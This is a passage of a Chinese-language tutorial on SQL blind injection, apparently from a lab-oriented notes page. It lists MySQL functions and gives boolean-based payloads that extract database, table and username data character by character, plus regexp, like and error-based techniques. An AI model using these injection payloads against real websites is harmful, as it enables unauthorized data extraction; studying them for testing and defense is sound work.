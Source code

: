 **报错盲注**：根据返回的显示错误信息构造SQL语句来进行的注入，称为报错盲注。

**盲注中用到的函数**
```
Length（）                  函数 返回字符串的长度  
Substr（）                  截取字符串  
Ascii（）                   返回字符的ascii码  
sleep(n)                   将程序挂起一段时间 n为n秒  
if(expr1,expr2,expr3)      判断语句,如果第一个语句正确就执行第二个语句，如果错误执行第三个语句 
```

- **基于布尔SQL盲注————构造逻辑判断**

**left(a,b)**
```
    left(database(),1) >'s'       
```
  database()显示数据库名称，left(a,b)从左侧截取a的前b位  

**Substr()**
```
    ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+   
```
   substr(a,b,c)从b位置开始，截取字符串a的c长度。   

   Ascii()将某个字符转换为ascii值  

**ord()、mid（）**         
```
    ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23    
```
   mid(a,b,c)从位置b开始，截取a字符串的c位  

   Ord()函数同ascii()，将字符转为ascii值  

**regexp（）正则注入**
```
    select user() regexp '^[a-z]';  
   正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。  
```
匹配第二位：
```
    select user() regexp '^ro'  
```
当正确的时候显示结果为1，不正确的时候显示结果为0.

**Like匹配注入**

和正则注入类似，mysql在匹配的时候可以使用like进行匹配
```
    select user() like 'ro%'  
```
- **基于报错的SQL盲注**构造payload让信息通过错误提示回显出来

```
floor()、extravtvalue()、updatexml()
```
